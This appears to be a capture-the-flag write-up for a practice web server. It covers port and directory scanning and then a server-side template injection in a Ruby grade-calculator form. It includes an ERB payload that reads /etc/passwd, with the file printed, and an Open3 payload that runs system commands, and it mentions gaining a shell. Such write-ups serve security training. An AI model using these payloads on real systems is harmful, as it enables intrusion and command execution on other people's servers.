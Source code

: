### Nmap scan

The IP has 2 ports open

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.9p1: 
|_      CVE-2023-51767  3.5     https://vulners.com/cve/CVE-2023-51767
80/tcp open  http    syn-ack ttl 63 nginx
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.11.253
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.10.11.253:80/weighted-grade
|     Form id: category1
|_    Form action: /weighted-grade-calc
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Checking the website

![image](https://github.com/L43371/Write-up/assets/129752764/04f950db-94c9-4e9e-8928-cb2d5e412ab0)

### Feroxbuster

```
200      GET        6l       12w      142c http://10.10.11.253/css/lato.css
200      GET        6l       12w      173c http://10.10.11.253/css/montserrat.css
200      GET      103l      387w     3827c http://10.10.11.253/about
200      GET      142l      444w     5191c http://10.10.11.253/weighted-grade
200      GET       32l      220w    13738c http://10.10.11.253/images/checklist.jpg
200      GET       11l       52w     3860c http://10.10.11.253/images/lightning.png
200      GET      235l      442w    23427c http://10.10.11.253/css/w3.css
200      GET        4l       66w    31000c http://10.10.11.253/css/font-awesome.min.css
200      GET      101l      390w     3842c http://10.10.11.253/
200      GET       51l      214w    14842c http://10.10.11.253/images/susan.jpg
200      GET      176l     1024w    79295c http://10.10.11.253/images/tina.jpg
```

There is no interesting directory

Visiting `/weighted-grade` , this may be an interesting page

![image](https://github.com/L43371/Write-up/assets/129752764/6115194d-2acf-46e6-9f63-5e633c54a133)

Intercepting the traffic using Caido

![image](https://github.com/L43371/Write-up/assets/129752764/f38d12c6-26cc-428d-861c-5794394b57e4)

## SSTI attack

Payload that I am using is `<%= File.open('/etc/passwd').read %>`
![image](https://github.com/L43371/Write-up/assets/129752764/e7f37447-34e7-4597-8872-7feb8a0a6868)

![image](https://github.com/L43371/Write-up/assets/129752764/001c8715-925d-4e67-914c-8257c1edbd9f)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
susan:x:1001:1001:Susan Miller,,,:/home/susan:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

![image](https://github.com/L43371/Write-up/assets/129752764/6fc21c0a-f499-4323-a13a-7980b66929c4)

Using this exploit `<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>` we are able to issue a command and by using a payload that is URL encoded, we can get a shell 

![image](https://github.com/L43371/Write-up/assets/129752764/bf6ef03b-8a97-46f3-af3b-4bbf6e24da9e)

![image](https://github.com/L43371/Write-up/assets/129752764/3d78b4ca-707d-4c48-96dd-76f8e4542dfb)

![image](https://github.com/L43371/Write-up/assets/129752764/c45495f7-fce5-4c6a-9dde-439a74c66b44)






